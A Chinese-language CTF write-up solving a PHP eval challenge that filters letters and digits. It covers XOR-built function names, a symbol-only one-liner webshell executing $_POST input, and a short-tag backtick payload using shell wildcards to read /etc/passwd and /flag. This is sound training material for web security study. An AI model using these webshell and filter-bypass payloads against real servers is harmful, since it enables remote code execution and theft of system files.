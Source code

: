 一开始看这题满脑子想的都是用异或来做，结果发现没办法调用getflag函数，看了别人的wp才发现思路错了。

# 错误思路

毕竟这个思路也蛮清奇，大概说一下吧：

思考这一个题目

```php
if(isset($_GET['code'])){
    $code = $_GET['code'];
    if(strlen($code)>135){
        die("Long.");
    }
    if(preg_match("/[A-Za-z0-9]+/",$code)){
        die("NO.");
    }
    @eval($code);
}else{
    highlight_file(__FILE__);
}
function getFlag()
{
    echo "Flag";
}
```

code参数由正则过滤了大小写字母以及数字，那么我们可以通过符号异或构造payload。

以下脚本可以打印出符号异或得到的值，经过试验26个字母的大小写都可以通过这种方法得到：

```python
def xor():
    arr=[chr(i) for i in range(ord('a'),ord('z'))]+[chr(i) for i in range(ord('A'),ord('Z'))]
    test=['`','~','!','@','%','^','*','(',')','-','+','{','}','[',']',':','<','>','.',',',';','|']
    for i in test:
        for j in test:
            res=chr(ord(i)^ord(j))
            if res in arr:
                print i,j,res
'''
[ < g
[ > e
] ) t
| : F
@ , l
[ : a
[ < g

'[[]|@[['^'<>):,:<'
'''


if __name__ == '__main__':
    xor()
```

可以看到 '[' ^'<' ='g', '['^'>'='e', ...

那么使用`'[[]|@[['^'<>):,:<'`就可以得到字符串'getFlag'，下面就是怎么调用，想到 `$_='getFlag';$_();`等同于`getFlag();'`, 那么使用`$_='[[]|@[['^'<>):,:<';$_();`就可以调用了，那么最后的payload就是`code=$_='[[]|@[['^'<>):,:<';$_();`

按照此原理，可以构造出一句话比如：

```php
<?php
    @$_++; // $_ = 1
    $__=("#"^"|"); // $__ = _
    $__.=("."^"~"); // _P
    $__.=("/"^"`"); // _PO
    $__.=("|"^"/"); // _POS
    $__.=("{"^"/"); // _POST 
    ${$__}[!$_](${$__}[$_]); // $_POST[0]($_POST[1]);
?>
```

# 回到题目

再看一下这道题目

```php
<?php
// include 'flag.php';
// $code='[[]|@[['^'<>):,:<';
// echo $code.'()';
// @eval($code);
if(isset($_GET['code'])){
    $code = $_GET['code'];
    if(strlen($code)>35){
        die("Long.");
    }
    if(preg_match("/[A-Za-z0-9_$]+/",$code)){ //*
        die("NO.");
    }
    @eval($code);
}else{
    highlight_file(__FILE__);
}
function getFlag()
{
    echo "Flag";
}
//$hint =  "php function getFlag() to get flag";
?>
```

在正则过滤那边，可以看到`$`和`_`都被过滤了，这直接导致了即使用上述方法得到了字符串，也没办法执行php的函数（这里纠正一下，php7中我们是可以通过`('func_name')()`在执行函数的，这样其实我的错误思路是可行的，甚至在[无字母数字webshell之提高篇](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html)中，作者直接使用了取反字符串的方法构造了payload）。正确的做法使用php短标签是直接读文件，考虑如下php代码：

```php
<?= `ls`?>
```

执行结果

![1538795891202](babybypass.assets/1538795891202.png)

可以看到，`<? ?>`是php的短标签，效果等同于:

```php
<?php echo `ls` ?>
```



那么在eval中怎么用这个短标签呢？答案是先使用tag（`?>`）离开当前模式，再使用短标签，即```eval(?><?= `ls`?>)```。



接下来就是怎么绕过正则了，bash里面用通配符绕过就好了，即

```bash
cat /etc/passwd #替换为
/???/??t /??c/p???w?
```

因此paylaod为```code=?><?=`/???/??? /???/???/????/*`;?>``` (```code=?><?=` /bin/cat /var/www/html/*`;?>)```, 会发现php代码里面的源代码getflag那一部分的函数是是从/flag里面读取的，那么构造```code=?><?=`/???/??? /????`;?>```相当于```code=?><?=` /bin/cat /flag`;?>```即可。

